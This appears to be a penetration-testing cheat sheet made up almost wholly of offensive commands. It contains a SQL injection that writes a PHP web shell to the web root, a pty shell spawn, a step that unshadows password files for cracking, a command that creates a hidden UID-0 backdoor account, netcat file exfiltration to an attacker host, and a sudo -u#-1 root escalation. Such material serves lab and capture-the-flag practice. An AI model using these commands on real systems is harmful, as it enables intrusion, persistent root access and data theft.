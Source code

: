 - Linux

```sql
?id=1 union all select 1,2,3,4,""<?php echo shell_exec($_GET['cmd']);?>"",6,7,8,9 into OUTFILE '/var/www/html/cmd.php'
```

### python Spawn shell

```python
import pty; pty.spawn("/bin/sh")
```

## Post Exploitation

```sh
unshadow passwd.txt shadow.txt > passwords.txt
sudo useradd -ou 0 -g 0 john | sudo passwd John@1234
```

```sh
Attacker side:
nc -l -p 4444 -q 1 > file < /dev/null

Victim side:
nc <attacker ip> 4444 < file
```

```sh
python -m http.server
python -m SimpleHTTPServer
```

## Words list generator

```sh
cewl -w wordslist.txt -d 10 http://$IP
```

## Hash

- hash-identifier
- hashid

## PrivEsc

### GTFOBin

<https://gtfobins.github.io/>

### sudo -l

- (ALL, !root) /bin/bash

```sh
sudo -u#-1 /bin/bash
```
